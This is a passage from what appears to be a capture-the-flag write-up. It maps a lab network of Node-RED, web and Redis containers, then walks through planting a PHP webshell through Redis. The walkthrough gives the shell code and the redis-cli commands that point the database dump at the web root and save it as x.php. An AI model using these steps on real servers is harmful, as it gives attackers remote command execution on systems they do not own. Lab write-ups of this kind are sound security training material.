 Map of the network showing the relation between the http server and the database

```java
[Attacker] 10.10.14.26

  [nodered] 172.18.0.2:1880 172.19.0.4:1880

    [host]        172.19.0.1

    [container_1] 172.19.0.2:80   --|
                                    | connection site to database
    [container_2] 172.19.0.3:6379 --|

```

Investigating more, hacktricks show a possible way to get remote command execution in the redis database. [Redis RCE](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce)

Another way to get remote command execution is through a webshell which can be done following the steps that hacktricks show to upload a file. [File upload](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh)

1. Generate a simple php webshell that contains newlines at the beginning and at the bottom of the file, it is imperative that the file has blank newlines before the content.
```php



<?php system($_REQUEST['x']); >



```

2. Import the file to redis 
```bash
cat x.php | redis-cli -h 127.0.0.1 -x set reverse
```

3. Knowing the path from the source code of 172.19.0.2 it can be used as the destination to upload the webshell.
```bash
redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
```

4. Set the database name to one with extension .php.
```bash
redis-cli -h 127.0.0.1 config set dbfilename "x.php"
```

5. Save the changes
```bash
redis-cli -h 127.0.0.1 save
```

An script can be created to automate this task.

